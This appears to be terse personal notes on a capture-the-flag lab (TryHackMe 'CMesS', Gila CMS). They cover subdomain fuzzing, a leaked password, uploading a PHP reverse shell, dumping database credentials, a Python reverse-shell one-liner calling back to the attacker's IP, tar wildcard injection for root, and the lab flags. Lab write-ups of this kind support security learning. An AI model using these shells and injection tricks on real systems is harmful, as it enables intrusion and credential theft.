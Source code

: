 # CMesS 

> VOiD | Sunday 31 October 2021 05:25:44 PM IST

My IP : 10.8.253.221
Target IP : 


## PORT 80 [http : gila CMS]


http://10.10.179.62/robots.txt

```
User-agent: *
Disallow: /src/
Disallow: /themes/
Disallow: /lib/
```

```bash

wfuzz -c -f sub-fighter.txt -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://cmess.thm/" -H "Host: FUZZ.cmess.thm" 

cat sub-fighter.txt | grep -v 107
00019:  C=200     30 L	     104 W	    934 Ch	  "dev"

```

http://dev.cmess.thm
```
andre@cmess.thm


andre@cmess.thm

That's ok, can you guys reset my password if you get a moment, I seem to be unable to get onto the admin panel.
support@cmess.thm

Your password has been reset. Here: KPFTN_f2yxe%
```

http://cmess.thm/admin/fm?f=./assets
Upload a reverse shell
```bash
curl http://cmess.thm/assets/rev.php
```

```php
  array (
    'host' => 'localhost',
    'user' => 'root',
    'pass' => 'r0otus3rpassw0rd',
    'name' => 'gila',
  )
```

```bash
mysql -u root -p

use gila
mysql> select * from user\G;
*************************** 1. row ***************************
        id: 1
  username: andre
     email: andre@cmess.thm
      pass: $2y$10$uNAA0MEze02jd.qU9tnYLu43bNo9nujltElcWEAcifNeZdk4bEsBa
    active: 1
reset_code: 
   created: 2020-02-06 18:20:34
   updated: 2020-02-06 18:20:34

╔══════════╣ Interesting writable files owned by me or writable by everyone (not in Home) (max 500)
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-files
/dev/mqueue
/dev/shm
/opt/.password.bak

www-data@cmess:/var/log$ cat /opt/.password.bak
andres backup password
UQfsdCB7aAP6

andre@cmess:~$ cat user.txt 
thm{c529b5d5d6ab6b430b7eb1903b2b5e1b}

```

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.253.221",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'

echo "" > "--checkpoint-action=exec=sh script.sh"
echo "" > --checkpoint=1

root@cmess:~# cat root.txt 
thm{9f85b7fdeb2cf96985bf5761a93546a2}
```